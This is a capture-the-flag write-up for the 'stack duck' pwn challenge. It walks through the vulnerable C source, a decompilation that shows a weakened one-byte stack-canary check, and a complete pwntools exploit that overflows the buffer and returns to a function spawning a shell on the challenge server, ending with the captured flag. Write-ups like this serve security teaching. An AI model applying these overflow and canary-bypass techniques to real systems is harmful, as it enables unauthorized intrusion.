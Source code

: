 # stack duck (ath0)
This challenge comes with a meme as a hint:
![stack-duck](stack-duck.png)

## Exploration
Lets take a look at the provided source code
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

volatile long DuckCounter;

__attribute__((noinline))
void win() {
    system("/bin/sh");
}

__attribute__((noinline))
void submit_code() {
    char temp_code[512];

    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code, 552, stdin);
}

__attribute__((noinline))
int menu() {
    printf("Twitter Employee Performance Review\n");
    printf("***********************************\n\n");
    printf("1. Submit code for approval\n");
    printf("2. Get fired\n");

    return 0;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    int run = 1;
    while (run) {
        char buf[0x20];
        menu();
        fgets(buf, 0x20, stdin);
        int choice = atoi(buf);
        switch (choice) {
            case 1:
                submit_code();
                break;
            case 2:
                run = 0;
                break;
            default:
                break;
        }
    }
    return 0;
}
```

Seems fairly simple, find a way to call the `win` function. There's a buffer overflow in `submit_code`, meaning that we should be able to override the return address of `submit_code` to return to `win`.

However, modern compilers add protections by default, so before we get ahead of ourselves lets run `checksec` (provided by `pwntools`) on the binary to see whats going on there.
```bash
$ checksec chall
[*] '/root/ctf/stack-duck/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Importantly it says `Stack:    Canary found`.

## Stack Canaries
The stack canary is a secret value placed on stack after all of the variables, and is checked before the function returns to make sure it is the correct value. There is a new canary every time the program is executed. This way, if some buffer overflow exists, it will overwrite the canary in the process of overwriting the return value which will be detected, give an error message, and quit immediately.
```
*** stack smashing detected ***: terminated
```

Given the meme as a hint and the fact that there is a canary, this challenge is likely going to be about beating the stack canary. Typically, this is done by somehow leaking the value of the canary, but in this challenge it is not possible to do so because there is no user controlled way of printing out any values. We will have to look for something else.

## Weirdness
The name of the challenge is Stack Duck, not Stack Canary, and in the provided source code there is a variable declaration:
```c
volatile long DuckCounter;
```

However nowhere is this value used! Lets have a look in ghidra to examine could be happening here.
```c
void submit_code(void)
{
    long lVar1;
    long in_FS_OFFSET;
    char temp_code [512];

    lVar1 = *(long *)(in_FS_OFFSET + 0x28);
    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code,0x228,stdin);

    DuckCounter = DuckCounter + 1;
    if ((DuckCounter & 0x1f) == 0x1e) {
        if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)lVar1) goto LAB_00401209;
    } else if (*(long *)(in_FS_OFFSET + 0x28) != lVar1) {
        LAB_00401209:
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }

    return;
}
```

This is much better, and we can see that `DuckCounter` is being used here. Our goal is to create a buffer overflow which passes the stack check, or in other words, to avoid `__stack_chk_fail()` being called. The block with the `else if (*(long *)(in_FS_OFFSET + 0x28) != lVar1)` looks like a standard canary check, but there is an additional condition which we can satisfy involving the `DuckCounter` which appears to have been artificially added. Let's try to bypass the canary using that.

## Exploit
Lets take the following code segment one piece at a time.
```c
DuckCounter = DuckCounter + 1;
if ((DuckCounter & 0x1f) == 0x1e) {
    if ((char)*(undefined8 *)(in_FS_OFFSET + 0x28) != (char)lVar1) goto LAB_00401209;
}
```

We increment `DuckCounter` every time we call the function, and then if `(DuckCounter & 0x1f) == 0x1e` is true we continue. So calling the function `0x1e=30` times will allow us to continue. Then, it looks like the regular canary check happens, but there is actually a subtle difference, there is a `(char)` cast on `lVar1`, meaning that only one byte will be compared. Now if the cookie is random we have a 1/256 chance of guessing the right chance, so on average all we have to do is run the program 256 times to win (before if we simply tried guessing the canary value we would have to guess a 64 bit value which is not feasible). But it is actually far better than this, because for some reason the value that it compares to always turns out to be 0 (found in gdb). So if we pass along a null byte in our exploit in the correct place in stack we can pass the canary check and return to the `win` function. Lets ready write the exploit.

```python
from pwn import *

exe = ELF("./chall")
context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, '''
                c
            ''')
    else:
        r = remote("pwn.chall.pwnoh.io", 13386)

    return r


def main():
    r = conn()

    # set up for passing the (DuckCounter & 0x1f) == 0x1e check
    for duck_count in range(0x1e - 1):
        r.sendline(b'1')
        r.recvuntil(b'.\n')
        r.sendline(str(duck_count).encode())  # doesn't matter what we send here

    log.info("Sending!")
    r.sendline(b'1')
    r.recvuntil(b'.\n')

    # padding
    payload = b'A'*512 + b'B'*8

    # our canary which must have a null byte at the end, the rest of the values don't matter
    payload += p64(0xaabbccddee00)

    # more padding
    payload += b'C'*8

    # first return address, simple rop to a ret instruction to realign the stack
    payload += p64(0x40101a)

    # final return address, to the win function which calls /bin/sh
    payload += p64(exe.symbols["win"])

    # send the payload
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```

```bash
$ python3 solve.py
[*] '/root/ctf/stack-duck/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn.chall.pwnoh.io on port 13386: Done
[*] Sending!
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}

$
[*] Interrupted
[*] Closed connection to pwn.chall.pwnoh.io port 13386
```